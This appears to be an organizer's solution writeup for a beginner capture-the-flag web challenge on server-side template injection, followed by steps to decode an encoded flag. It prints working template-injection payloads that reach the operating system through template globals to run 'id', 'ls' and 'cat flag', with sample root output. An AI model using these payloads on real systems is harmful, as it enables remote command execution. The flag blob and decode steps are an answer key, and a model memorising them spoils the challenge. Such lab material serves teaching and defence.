

>>writeup/solution.md — Organizer-only writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy
 
---

### This writeup describes the intended attack flow and the decode steps players will need to perform. Keep this file private.

## Attack flow (what the player will do inside the app)

+ 1.In the search box the player first submits:
```{{7*7}}```
+ This will render and show 49.

+ 2.Next they try to gather system information using SSTI:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}```

+ This will show something like:
```uid=0(root) gid=0(root) groups=0(root)```

+ 3.Then they list files in the current directory:

```{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}```

+ This will show entries including flag (and other files).

+ 4.Finally they read the flag file with:

```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```

+ The application will return the encoded blob (exact output below):

```
%31%30%30%31%30%31%30%31%30%31%30%31%31%30%30%30%31%31%30%31%30%31%31%30%31%30%31%31%31%30%31%31%30%31%31%30%30%31%31%30%31%30%31%61%31%31%30%30%31%31%30%30%30%31%30%30%30%31%30%30%31%31%31%30%31%31%31%31%31%30%30%30%31%31%30%31%31%31%31%31%31%31%30%31%30%30%30%31%31%31%31%31%30%30%31%30%31%31%30%30%31%31%31%30%30%31%31%31%31%30%30%31%30%31%31%30%31%31%31%31%31%31%31%30%31%31%30%66%31%30%31%61%31%30%30%31%31%31%30%30%31%30%30%30%31%30%30%31%30%30%30%30%30%31%30%31%30%30%30%31%30%30%31%30%30%30%31%31%30%30%30%30%30%31%31%31%31%31%31%31%30%31%30%31%30%31%30%30%30%31%30%31%30%31%31%31%31%31%30%31%31%31%30%31%30%31%30%31%31%31%30%30%31%30%30%64%31%30%31%31%31%30%31%31%30%31%31%30%31%31%30%31%30%30%31%31%31%31%30%31%31%30%31%30%30%65%31%30%31%31%30%31%31%30%31%30%31%31%30%30%30%30%30%30%30%31%30%31%30%31%31%31%30%30%30%30%62%31%30%31%30%31%30%31%30%31%30%30%31%31%30%30%31%64%31%31%64```
---

### Decode pipeline (organizer helper)

To retrieve the final CTF_flag{...}, apply the following transforms in order to the blob returned by cat flag:

+ 1.URL-decode the percent-encoded string (convert %31 → 1, %30 → 0, %61 → a, etc.).

+ 2.Binary : interpret the result as a sequence of ASCII 0/1 characters (group into 8-bit chunks) and convert each byte to its numeric value.

+ 3.Hex ASCII : interpret the bytes from step 2 as ASCII hex characters (e.g. 43 54 46 5f ...) and convert the hex to raw bytes.

+ 4.Base64-decode the resulting bytes to obtain the final CTF_flag{...} text.


